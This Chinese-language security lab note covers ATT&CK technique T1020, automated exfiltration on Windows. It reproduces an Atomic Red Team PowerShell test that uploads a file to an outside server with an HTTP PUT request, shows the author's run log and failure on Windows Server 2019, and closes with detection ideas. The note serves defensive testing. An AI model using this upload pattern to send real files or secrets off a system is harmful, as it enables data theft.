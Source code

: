 # T1020-win-自动渗出
## 来自ATT&CK的描述

攻击者可能会在收集期间通过使用自动处理来渗出数据，例如敏感文件。

当使用自动渗出时，其他渗出技术可能也适用于将信息转移出网络，如通过C2通道渗出和通过替代协议渗出。

##  测试案例

IcedID Botnet HTTP PUT

创建一个文本文件，试图通过带有ContentType Header的HTTP PUT方法上传到服务器上，删除一个创建的文件

攻击命令，请使用Powershell执行：

```
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

file：C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt
domain：<https://google.com>

删除命令：

```
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```

## 检测日志

暂无，经过本地复现，Windows安全日志、Sysmon日志未记录到此命令的执行情况。实际上Windows Powershell日志可能会记录相关操作记录。

## 测试复现

### 测试1 IcedID Botnet HTTP PUT

```
PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> $url = "https://google.com"
PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> $url = "https://google.com"
PS C:\Users\zhuli> $file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
PS C:\Users\zhuli> $contentType = "application/octet-stream"
PS C:\Users\zhuli> try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}

PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> Remove-Item -Path $fileName -ErrorAction Ignore
```

Windows Server 2019测试失败，根据报错信息来看，主要问题在domain位置。


## 日志留痕

暂无

## 检测规则/思路

### 建议

监控进程文件访问模式和网络行为。未被识别的进程或脚本如果看起来在遍历文件系统或发送网络流量，是很可疑的行为。

## 参考推荐
MITRE-ATT&CK-T1020

<https://attack.mitre.org/techniques/T1020>

Atomic-red-team-T1006

<https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1020>

